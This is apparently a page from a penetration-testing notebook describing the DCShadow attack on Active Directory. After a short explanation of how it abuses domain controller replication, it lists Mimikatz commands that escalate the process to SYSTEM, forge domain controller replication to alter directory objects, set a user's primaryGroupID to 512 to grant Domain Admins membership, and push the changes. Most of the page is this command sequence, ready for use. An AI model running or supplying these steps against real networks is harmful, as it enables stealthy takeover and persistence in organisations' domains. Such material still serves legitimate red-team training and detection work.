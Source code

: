 # DCShadow

{% embed url="https://www.dcshadow.com" %}

{% embed url="https://pentestlab.blog/2018/04/16/dcshadow" %}

#### A DCShadow attack on Active Directory is an attack designed to change directory objects using malicious replication. During this attack, DCShadow impersonates a Domain Controller using administrative rights and starts a replication process, so that changes made on one Domain Controller are synchronized with other Domain Controllers. DCShadow abuses the Directory Replication Service (DRS) Remote Protocol \[MS-DRSR] and Active Directory Technical specification \[MS-ADTS].

![](<../../../.gitbook/assets/image (19).png>)

### <mark style="color:orange;">Exploitation</mark>

Start Mimikatz, running as an account that is part of Domain Admins or Enterprise Admins:

```
mimikatz # !+
# This will start the mimikatz service (mimidrv) if it’s not running.
mimikatz # !processtoken
# This will elevate mimikatz process to system privilege.
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: description /value: “DCShadow was here”
# This command will start the RPC server and it will modify the object of this user’s description value once it’s been pushed.
# Another interesting part is adding a user to domain admins group:
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: primaryGroupID /value: 512
```

Now start another mimikatz process (leave the other window open) and push the object changes:

```
mimikatz # lsadump::dcshadow /push
# This command will push the object and sync with the domain.
```
